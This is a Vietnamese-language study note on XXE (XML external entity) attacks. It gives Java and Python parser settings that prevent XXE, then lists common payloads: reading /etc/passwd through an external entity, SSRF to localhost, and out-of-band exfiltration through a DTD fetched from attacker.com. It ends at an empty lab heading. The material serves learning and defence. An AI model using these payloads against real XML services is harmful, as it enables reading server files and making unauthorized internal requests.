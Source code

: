 **Cách phòng tránh:** 

- Vô hiệu hóa external entities và DTD (tùy vào thư viện XML đang dùng):

  -Java:

```java
factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
factory.setFeature("http://xml.org/sax/features/external-general-entities", false);
factory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
```

​	-Python (defusedxml)

- Dùng thư viện parser an toàn: `defusedxml` (Python), `javax.xml.parsers.SAXParserFactory` cấu hình đúng (Java).

- Không xử lý XML nếu không cần thiết.

- Validate và sanitize đầu vào.

- Thực hiện tách biệt network layer nếu có SSRF thông qua XXE.

  

**Common Payload:**

Link: ...

#### Đọc file:

```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<foo>&xxe;</foo>
```

#### SSRF:

```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://localhost:8080">]>
<foo>&xxe;</foo>
```

#### Out-of-band (OOB) exfiltration:

```xml
<!DOCTYPE foo [
<!ENTITY % xxe SYSTEM "http://attacker.com/evil.dtd">
%xxe;
]>
```



## Apprentice: 

### Lab 1: 

Lab des: 
